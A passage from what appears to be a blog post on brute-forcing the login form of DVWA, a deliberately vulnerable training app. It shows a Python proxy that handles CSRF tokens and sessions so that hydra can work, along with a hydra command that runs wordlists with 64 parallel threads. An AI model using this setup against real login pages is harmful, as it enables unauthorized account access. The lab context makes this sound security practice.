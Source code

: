 - Connection reuse to avoid setting up new TCP conneciton every time you perform a request. 
- Do not spawn hundred thouthends of async jobs in case of working with big password lists that won't be efficient.
- Work with some paticular parallel requests to avoid target overloading and therefore not stable responses.

For sure there is ready to use brutforsing util - [hydra](https://github.com/vanhauser-thc/thc-hydra)

With a power of nix pakage manager I can get shell wiuth hydra available just like this :

```bash
 nix-shell -p thc-hydra
```

That is why I love NixOS and nix package manager (available even on MacOS even for M1). 

Hydra is very powerful tool, but handling anticsrf tocken and sessionid would not be easy, and require some preliminary preparation (manually get session id and tocken and pass it as parameters to hydra).

One more thing that hydra is not doing really good - complicsted machers for succesful and unsuccessful login. In dvwa case it it not a response code and not text in body - it is a `Location` header value.

To make hydra work with dvwa login, I choose to create some kind like a proxy server that would take user/login parameters on input, perform login and then response with login done in case of succesful login, and login failed in case of unsuccessful login. Such triggers can be natively parsed by `http-get-form` hydra module. Also this proxy server would handle all session_id and token staff.

`get_phpssid_and_user_token` funciton is already implemented. Same as `dvwa_login`.

Login handler would looks like:

```python
async def login_handler(request):
    try:
        user = request.query.get('u')
        password = request.query.get('p')
        login_success = await dvwa_login(user, password)
        if login_success:
            return web.Response(text="login done",status=200)
        else:
            return web.Response(text="login failed", status=200)
    except Exception as e:
        return web.Response(text="login failed",status=200)

app = web.Application()
app.router.add_route('*', '/login', login_handler)
web.run_app(app, port=8080)

```

Anh hydra command run would look like this:

```bash
time hydra \
  -L users.txt \
  -P passwords.txt \
  -s 8080 \
  -t 64 \
  localhost \
  http-get-form "/login:u=^USER^&p=^PASS^:G=:failed"
```
